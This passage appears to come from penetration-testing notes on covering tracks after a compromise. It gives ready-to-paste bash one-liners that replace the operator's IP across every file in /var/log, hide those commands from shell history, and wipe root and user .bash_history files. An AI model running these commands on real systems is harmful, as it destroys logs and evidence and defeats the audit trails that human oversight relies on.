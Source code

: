 ```bash
# MY IP address that I want to scrub.
srcip="22.164.233.238"

# Generate a new, unique, random IP address
rndip=`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`

# Find all files and replace any place that you see my IP, with the random one.
find /var/log -name "*" -exec sed -i "s/$srcip/$rndip/g" {} \; 2> /dev/null
```

##### As one ugly command

This is something you could copy/paste, and just change your IP address.

Basically, just set your `srcip` to your workstations' IP first, and MAKE SURE to run this with a space prefixed, so this command doesn't get written to the shell's history files (e.g. `~/.bash_history`, `~/.zsh_history`, etc.)

```bash
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
```

or optionally, start a new shell, turn off command history, AND start the command with a space prefixed (which also should not add the command to the shell history), then exit out of that separate process:

```bash
bash
unset HISTFILE
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
exit
```

The key idea here is that hiding your address from the logs would be pointless if the *command* for hiding your address from the logs were in a log some place!

### Wipe shell history

For any accounts that we used, if we don't mind that this will destroy valid entries of the user too (and give them an indication their account was compromised), run a comand like this with `tee` writing out nothing/null to multiple files at once:

```bash
cat /dev/null | tee /root/.bash_history /home/kathy/.bash_history /home/sam/.bash_history
```

## Summary

Completed: [<kbd>CTRL</kbd>+<kbd>SHFT</kbd>+<kbd>I</kbd> (requires `jsynowiec.vscode-insertdatestring` VS Code Extension)]
